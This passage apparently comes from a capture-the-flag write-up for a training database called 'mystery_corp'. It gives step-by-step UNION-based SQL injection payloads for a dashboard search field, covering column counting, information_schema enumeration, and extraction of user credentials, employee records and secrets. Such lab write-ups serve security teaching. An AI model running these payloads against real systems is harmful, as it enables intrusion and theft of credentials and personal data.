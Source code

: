 ```bash
```

#### 2.2 Systematic Database Enumeration (Dashboard Search)

**Step 1: Determine number of columns**
```sql
-- Test column count
%' ORDER BY 4#  -- Success (4 columns exist)
%' ORDER BY 5#  -- Error (only 4 columns)
```

**Step 2: Test injection point**
```sql
-- Verify UNION injection works
%' UNION SELECT 'test',NULL,NULL,NULL#
```

**Step 3: Database information gathering**
```sql
-- Get database info
%' UNION SELECT @@hostname,database(),@@version,NULL#

-- Results:
-- Hostname: [container_hostname]
-- Database: mystery_corp
-- Version: MySQL 8.0.x
```

**Step 4: Enumerate tables**
```sql
-- List all tables in current database
%' UNION SELECT table_name,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema=database()#

-- Expected tables:
-- users, employees, secrets, flag_submissions, ctf_settings
```

**Step 5: Enumerate columns**
```sql
-- Get columns from users table
%' UNION SELECT column_name,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='users'#

-- Expected columns: id, username, password, role, created_at

-- Get columns from employees table
%' UNION SELECT column_name,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='employees'#

-- Expected columns: id, name, department, salary, secret_note, created_at
```

**Step 6: Extract sensitive data**
```sql
-- Extract user credentials
%' UNION SELECT username,password,role,NULL FROM users#

-- Extract employee data (contains XSS flag)
%' UNION SELECT name,department,secret_note,NULL FROM employees#

-- Extract secrets (if admin access)
%' UNION SELECT title,content,access_level,NULL FROM secrets#
```
